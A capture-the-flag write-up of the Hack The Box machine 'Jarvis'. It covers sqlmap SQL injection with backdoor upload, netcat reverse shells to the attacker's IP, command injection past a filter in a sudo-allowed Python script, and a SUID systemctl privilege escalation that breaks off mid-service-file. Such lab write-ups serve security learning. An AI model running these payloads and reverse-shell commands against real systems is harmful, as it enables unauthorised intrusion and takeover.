







---
search:
  exclude: true
---
# Jarvis Writeup

## Introduction :

Jarvis is a Medium linux box released back in June 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      [ 10.10.14.15/23 ] [ /dev/pts/5 ] [~]
      → sudo nmap -vvv -sTU -p- 10.10.10.143 --max-retries 0 -Pn --min-rate=500 | grep Discovered
      [sudo] password for nothing:
      Discovered open port 22/tcp on 10.10.10.143
      Discovered open port 80/tcp on 10.10.10.143
    
      [ 10.10.14.15/23 ] [ /dev/pts/5 ] [~]
      → nmap -sCV -p22,80 10.10.10.143
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-24 13:36 BST
      Nmap scan report for 10.10.10.143
      Host is up (0.16s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
      | ssh-hostkey:
      |   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
      |   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
      |_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
      80/tcp open  http    Apache httpd 2.4.25 ((Debian))
      | http-cookie-flags:
      |   /:
      |     PHPSESSID:
      |_      httponly flag not set
      |_http-server-header: Apache/2.4.25 (Debian)
      |_http-title: Stark Hotel
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 12.29 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:

    
    
    
      [ 10.10.14.15/23 ] [ /dev/pts/5 ] [~]
      → dirsearch -u http://10.10.10.143 -e php,txt,html -t 50
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: php, txt, html | HTTP method: get | Threads: 50 | Wordlist size: 6748
    
      Error Log: /home/nothing/Desktop/Tools/dirsearch/logs/errors-20-04-24_13-40-43.log
    
      Target: http://10.10.10.143
    
      [13:40:43] Starting:
      [13:40:46] 403 -  298B  - /.ht_wsr.txt
      [13:40:46] 403 -  300B  - /.htaccess-dev
      [13:40:46] 403 -  291B  - /.hta
      [13:40:46] 403 -  300B  - /.htaccess.BAK
      [13:40:46] 403 -  301B  - /.htaccess.bak1
      [13:40:46] 403 -  302B  - /.htaccess-marco
      [13:40:46] 403 -  302B  - /.htaccess-local
      [13:40:46] 403 -  300B  - /.htaccess.old
      [13:40:46] 403 -  301B  - /.htaccess.orig
      [13:40:46] 403 -  303B  - /.htaccess.sample
      [13:40:46] 403 -  301B  - /.htaccess.save
      [13:40:46] 403 -  300B  - /.htaccess.txt
      [13:40:46] 403 -  302B  - /.htaccess_extra
      [13:40:46] 403 -  301B  - /.htaccess_orig
      [13:40:46] 403 -  299B  - /.htaccessOLD
      [13:40:46] 403 -  299B  - /.htaccessBAK
      [13:40:46] 403 -  299B  - /.htaccess_sc
      [13:40:46] 403 -  300B  - /.htaccessOLD2
      [13:40:46] 403 -  297B  - /.htaccess~
      [13:40:46] 403 -  295B  - /.htgroup
      [13:40:46] 403 -  300B  - /.htpasswd-old
      [13:40:46] 403 -  301B  - /.htpasswd_test
      [13:40:46] 403 -  297B  - /.htpasswds
      [13:40:46] 403 -  295B  - /.htusers
      [13:41:00] 301 -  310B  - /css  ->  http://10.10.10.143/css/
      [13:41:02] 301 -  312B  - /fonts  ->  http://10.10.10.143/fonts/
      [13:41:04] 301 -  313B  - /images  ->  http://10.10.10.143/images/
      [13:41:04] 200 -   23KB - /index.php
      [13:41:04] 200 -   23KB - /index.php/login/
      [13:41:04] 301 -  309B  - /js  ->  http://10.10.10.143/js/
      [13:41:08] 301 -  317B  - /phpmyadmin  ->  http://10.10.10.143/phpmyadmin/
      [13:41:09] 200 -   14KB - /phpmyadmin/
      [13:41:11] 403 -  300B  - /server-status
      [13:41:11] 403 -  301B  - /server-status/
    
      Task Completed
    
    

now the interesting here is to head over to the room.php page where there is a SQL injectable parameter "cod" : 

So using the sqlmap command focused on the cod parameter, with the --batch parameter to let sqlmap decide instead

    
    
      [ 10.10.14.15/23 ] [ /dev/pts/7 ] [~]
      → sqlmap -u http://10.10.10.143/room.php\?cod\=2 -p cod --batch
              ___
             __H__
       ___ ___[,]_____ ___ ___  {1.4.4#stable}
      |_ -| . [ ]     | .|  . |
      |___|_  [.]_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 13:47:56 /2020-04-24/
    
      [13:47:56] [INFO] testing connection to the target URL
      you have not declared cookie(s), while server wants to set its own ('PHPSESSID=ijsh9b7tldb...pd5ok0b5u4'). Do you want to use those [Y/n] Y
    
      [...]
    
      [13:48:22] [INFO] GET parameter 'cod' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
      GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
      sqlmap identified the following injection point(s) with a total of 81 HTTP(s) requests:
      ---
      Parameter: cod (GET)
          Type: boolean-based blind
          Title: AND boolean-based blind - WHERE or HAVING clause
          Payload: cod=2 AND 9936=9936
    
          Type: time-based blind
          Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
          Payload: cod=2 AND (SELECT 8855 FROM (SELECT(SLEEP(5)))rNre)
    
          Type: UNION query
          Title: Generic UNION query (NULL) - 7 columns
          Payload: cod=-7095 UNION ALL SELECT NULL,NULL,CONCAT(0x71766a7671,0x526d7a7a434367667152426962716277476468697647506b63536544554f696444474c4242465369,0x7170626a71),NULL,NULL,NULL,NULL-- -
      ---
      [13:48:23] [INFO] the back-end DBMS is MySQL
      back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
      [13:48:23] [INFO] fetched data logged to text files under '/home/nothing/.sqlmap/output/10.10.10.143'
    
      [*] ending @ 13:48:23 /2020-04-24/
    

So our sqlmap scan picked up the **boolean-based blind sql injection _"cod=2 AND 9936=9936"_** and the a **time-based blind sql injection _"cod=2 AND (SELECT 8855 FROM (SELECT(SLEEP(5)))rNre)"_** The last UNION query sql injection seems a bit extreme, so we'll use one the first two to continue by supplying the following --random-agent and --os-pwn flags : 
    
    
    
      [ 10.10.14.15/23 ] [ /dev/pts/5 ] [~]
      → sudo sqlmap -u http://10.10.10.143/room.php\?cod\=1 -p cod --delay 2 --os-shell --batch
              ___
             __H__
       ___ ___[)]_____ ___ ___  {1.4.4#stable}
      |_ -| . [']     | .'| . |
      |___|_  [']_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 14:25:42 /2020-04-24/
    
      [14:25:42] [INFO] resuming back-end DBMS 'mysql'
      [14:25:42] [INFO] testing connection to the target URL
      you have not declared cookie(s), while server wants to set its own ('PHPSESSID=sdu9as9sjto...hj8maof8n6'). Do you want to use those [Y/n] Y
      sqlmap resumed the following injection point(s) from stored session:
      ---
      Parameter: cod (GET)
          Type: boolean-based blind
          Title: AND boolean-based blind - WHERE or HAVING clause
          Payload: cod=1 AND 1211=1211
    
          Type: time-based blind
          Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
          Payload: cod=1 AND (SELECT 7286 FROM (SELECT(SLEEP(5)))vLIW)
    
          Type: UNION query
          Title: Generic UNION query (NULL) - 7 columns
          Payload: cod=-6450 UNION ALL SELECT CONCAT(0x7178716a71,0x685a4e4644627879677847584e50544e4f5763536e455059626b5570475768784c51795749596957,0x71626b7871),NULL,NULL,NULL,NULL,NULL,NULL-- -
      ---
      [14:25:44] [INFO] the back-end DBMS is MySQL
      back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
      [14:25:44] [INFO] going to use a web backdoor for command prompt
      [14:25:44] [INFO] fingerprinting the back-end DBMS operating system
      [14:25:44] [INFO] the back-end DBMS operating system is Linux
      which web application language does the web server support?
      [1] ASP
      [2] ASPX
      [3] JSP
      [4] PHP (default)
      > 4
      [14:25:44] [WARNING] unable to automatically retrieve the web server document root
      what do you want to use for writable directory?
      [1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
      [2] custom location(s)
      [3] custom directory list file
      [4] brute force search
      > 1
      [14:25:44] [INFO] retrieved web server absolute paths: '/images/'
      [14:25:44] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
      [14:25:53] [WARNING] unable to upload the file stager on '/var/www/'
      [14:25:53] [INFO] trying to upload the file stager on '/var/www/' via UNION method
      [14:25:55] [WARNING] expect junk characters inside the file as a leftover from UNION query
      [14:25:58] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
      [14:26:04] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
      [14:26:15] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpuuhgv.php
      [14:26:19] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://10.10.10.143:80/tmpbbmyz.php
      [14:26:19] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
      os-shell> ls
      do you want to retrieve the command standard output? [Y/n/a] Y
      command standard output:
      ---
      ayax
      b4nn3d
      connection.php
      css
      dining-bar.php
      fonts
      footer.php
      getfileayax.php
      images
      index.php
      js
      nav.php
      phpmyadmin
      room.php
      roomobj.php
      rooms-suites.php
      sass
      tmpbbhty.php
      tmpbbmyz.php
      tmpbfoqa.php
      tmpukixw.php
      tmpuqxde.php
      tmpuuhgv.php
      ---
      os-shell>
    
    

So here we have a shitty shell, which we need to spawn a proper shell:
    
    
      os-shell> id
      do you want to retrieve the command standard output? [Y/n/a] Y
      No output
      os-shell> which bash
      do you want to retrieve the command standard output? [Y/n/a] Y
      command standard output: '/bin/bash'
      os-shell> bash
      do you want to retrieve the command standard output? [Y/n/a] Y
      No output
      os-shell> which python
      do you want to retrieve the command standard output? [Y/n/a] Y
      os-shell> python -c 'import pty;pty.spawn("/bin/bash");'
      do you want to retrieve the command standard output? [Y/n/a] Y
      No output
    
    

It's not as trivial as it sounds like, because we can't seem to escape said shell yet. So the thing here is that we are able to upload a netcat binary in order to spawn a reverse shell for us:

_Terminal 1:_
    
    
    
      [ 10.10.14.15/23 ] [ /dev/pts/6 ] [~/_HTB/Jarvis]
      → which nc
      /usr/bin/nc
    
      [ 10.10.14.15/23 ] [ /dev/pts/6 ] [~/_HTB/Jarvis]
      → cp /usr/bin/nc .
    
    
      [ 10.10.14.15/23 ] [ /dev/pts/6 ] [~/_HTB/Jarvis]
      → file nc
      nc: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=22b9d8e181fb120b26a0b11142547e0dfbde8a83, for GNU/Linux 3.2.0, stripped
    
      [ 10.10.14.15/23 ] [ /dev/pts/6 ] [~/_HTB/Jarvis]
      → python3 -m http.server 9091
      Serving HTTP on 0.0.0.0 port 9091 (http://0.0.0.0:9091/) ...
    
    
    
    
      os-shell> which wget
      do you want to retrieve the command standard output? [Y/n/a] Y
      command standard output: '/usr/bin/wget'
      os-shell> wget http://10.10.14.15:9091/nc
      do you want to retrieve the command standard output? [Y/n/a] Y
      command standard output:
      ---
      --2020-04-24 10:53:19--  http://10.10.14.15:9091/nc
      Connecting to 10.10.14.15:9091... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 35520 (35K) [application/octet-stream]
      Saving to: 'nc'
    
           0K .......... .......... .......... ....                 100%  307K=0.1s
    
      2020-04-24 10:53:20 (307 KB/s) - 'nc' saved [35520/35520]
    
      ---
    
      os-shell> nc 10.10.14.15 9001 -e /bin/bash
      do you want to retrieve the command standard output? [Y/n/a] Y
    
    
    
    
      [ 10.10.14.15/23 ] [ /dev/pts/6 ] [~/_HTB/Jarvis]
      → sudo nc -lvnp 9001
      [sudo] password for nothing:
      listening on [any] 9001 ...
      connect to [10.10.14.15] from (UNKNOWN) [10.10.10.143] 59194
      id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    
    
    
      id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
      which python
      /usr/bin/python
      python -c 'import pty;pty.spawn("/bin/bash");'
      www-data@jarvis:/var/www/html$ id
      id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
    
    
    
    
      www-data@jarvis:/var/www/html$ cd /home
      cd /home
      www-data@jarvis:/home$ ls
      ls
      pepper
      www-data@jarvis:/home$ cd pepper
      cd pepper
      www-data@jarvis:/home/pepper$ ls
      ls
      Web  user.txt
      www-data@jarvis:/home/pepper$ cat user.txt
      cat user.txt
      cat: user.txt: Permission denied
    
    

So we need to privesc to the user pepper, first thing to look into is sudo -l : 
    
    
    
      www-data@jarvis:/home/pepper$ sudo -l
      sudo -l
      Matching Defaults entries for www-data on jarvis:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
      User www-data may run the following commands on jarvis:
          (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
    
    
    
    
    
      www-data@jarvis:/home/pepper$ cd /var/www/Admin-Utilities
      cd /var/www/Admin-Utilities
      www-data@jarvis:/var/www/Admin-Utilities$ ls -lash
      ls -lash
      total 16K
      4.0K drwxr-xr-x 2 pepper pepper 4.0K Mar  4  2019 .
      4.0K drwxr-xr-x 4 root   root   4.0K Mar  4  2019 ..
      8.0K -rwxr--r-- 1 pepper pepper 4.5K Mar  4  2019 simpler.py
    
      www-data@jarvis:/var/www/Admin-Utilities$ python3 simpler.py
      python3 simpler.py
      ***********************************************
           _                 _
       ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
      / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
      \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
      |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                      |_|               |_|    |___/
                                      @ironhackers.es
    
      ***********************************************
    
    
      ********************************************************
      * Simpler   -   A simple simplifier ;)                 *
      * Version 1.0                                          *
      ********************************************************
      Usage:  python3 simpler.py [options]
    
      Options:
          -h/--help   : This help
          -s          : Statistics
          -l          : List the attackers IP
          -p          : ping an attacker IP
    
    

So the trick here is to ping ourselves, and to try to not kill the current shell, because the ping command runs infintiely, to shut it down means to hit Ctrl+C and therefore end the shell. 
    
    
      www-data@jarvis:/var/www/Admin-Utilities$ python3 simpler.py -p
      python3 simpler.py -p
      ***********************************************
           _                 _
       ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
      / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
      \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
      |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                      |_|               |_|    |___/
                                      @ironhackers.es
    
      ***********************************************
    
      Enter an IP: 10.10.14.15 & whoami
      10.10.14.15 & whoami
      Got you
    
    

Looking at the sourcecode of the script we see that it filters out the following characters: 
    
    
    
      www-data@jarvis:/var/www/Admin-Utilities$ cat simpler.py | grep forbidden
      cat simpler.py | grep forbidden
          forbidden = ['&', ';', '-', '`', '||', '|']
          for i in forbidden:
    

So the idea here is to make a script that will spawn another reverse shell, this time as the user pepper, thanks to the python script itself, since we can inject the characters $(/path/to/script)
    
    
    
      www-data@jarvis:/var/www/Admin-Utilities$ touch nihilist
      touch nihilist
      touch: cannot touch 'nihilist': Permission denied
      www-data@jarvis:/var/www/Admin-Utilities$ touch /tmp/nihilist
      touch /tmp/nihilist
      www-data@jarvis:/var/www/Admin-Utilities$
    
    

And said script we have to save it into a directory where we have writing access, /tmp in particular with which the netcat binary will also be:

    
    
      www-data@jarvis:/var/www/Admin-Utilities$ touch /tmp/nihilist
      www-data@jarvis:/var/www/Admin-Utilities$ chmod +x /tmp/nihilist && chmod +x /tmp/nc
      www-data@jarvis:/var/www/Admin-Utilities$ echo '#!/bin/sh' > /tmp/nihilist
      www-data@jarvis:/var/www/Admin-Utilities$ echo 'nc -e /bin/bash 10.10.14.15 9002' >> /tmp/nihilist
      www-data@jarvis:/var/www/Admin-Utilities$ cat /tmp/nihilist
      cat /tmp/nihilist
      #!/bin/sh
      nc -e /bin/bash 10.10.14.15 9002
    
    

` 

And that's it ! we have been able to print out the user flag.

## **Part 3 : Getting Root Access**

In order to privesc to the root user, we can first off upgrade our current shell by making a ssh connection: 

    
    
    
      [ 10.10.14.15/23 ] [ /dev/pts/8 ] [~/.ssh]
      → cp id_rsa ~/_HTB/Jarvis
    
      [ 10.10.14.15/23 ] [ /dev/pts/8 ] [~/.ssh]
      → cd ~/_HTB
    
      [ 10.10.14.15/23 ] [ /dev/pts/8 ] [~/_HTB]
      → ls
      Arkham  dupent  Jarvis  Luke  Querier  Unattended
    
      [ 10.10.14.15/23 ] [ /dev/pts/8 ] [~/_HTB]
      → cd Jarvis
    
      [ 10.10.14.15/23 ] [ /dev/pts/8 ] [~/_HTB/Jarvis]
      → ls
      id_rsa  id_rsa.pub  nc
    
      [ 10.10.14.15/23 ] [ /dev/pts/8 ] [~/_HTB/Jarvis]
      → ssh pepper@10.10.10.143 -i id_rsa
      Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
    
      The programs included with the Debian GNU/Linux system are free software;
      the exact distribution terms for each program are described in the
      individual files in /usr/share/doc/*/copyright.
    
      Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
      permitted by applicable law.
      Last login: Fri Apr 24 11:36:53 2020 from 10.10.14.15
      pepper@jarvis:~$
    
    

So now that we can easily ssh into the box we can run LinEnum.sh like so : 

Running it we see that there is an interesting SUID file which is systemctl, it has permissions to edit sqli-defender.service in particular: 

We could have also found it this way by finding the files with the 4000 permissions: 
    
    
    
      pepper@jarvis:/etc/systemd/system$ find / -perm /4000 2>/dev/null
      /bin/fusermount
      /bin/mount
      /bin/ping
      /bin/systemctl
      /bin/umount
      /bin/su
      /usr/bin/newgrp
      /usr/bin/passwd
      /usr/bin/gpasswd
      /usr/bin/chsh
      /usr/bin/sudo
      /usr/bin/chfn
      /usr/lib/eject/dmcrypt-get-device
      /usr/lib/openssh/ssh-keysign
      /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    
    

To which systemctl obviously stands out, So now we know that we can run systemctl as root, so we can register new services that will spawn a reverse shell for us:
    
    
    
      pepper@jarvis:/etc/systemd/system$ nano /tmp/nihilist.service
      pepper@jarvis:/etc/systemd/system$ cat /tmp/nihilist.service
      [Unit]
      Description=nihilist
    
      [Service]
